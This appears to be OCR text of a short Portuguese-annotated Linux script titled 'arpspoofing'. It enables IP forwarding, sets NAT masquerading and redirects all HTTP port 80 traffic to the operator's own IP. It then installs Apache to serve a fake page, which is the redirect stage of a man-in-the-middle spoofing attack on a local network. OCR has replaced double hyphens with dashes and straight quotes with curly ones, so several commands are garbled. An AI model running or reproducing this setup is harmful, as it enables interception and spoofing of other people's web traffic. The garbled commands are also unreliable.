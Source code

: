 # arpspoofing

echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -t nat --flush

iptables --zero

iptables -A FORWARD -—in-interface ‘nome_interface’ -j ACCEPT

iptables -t nat —-append POSTROUTING --out-interface ‘nome_interface’ -j MASQUERADE

iptables -t nat -A PREROUTING -p tcp —-dport 80 —-jump DNAT —to-destination ‘meuip’

apt-get install apache2

echo “esse site eh falso!!” > /var/www/html/index.html
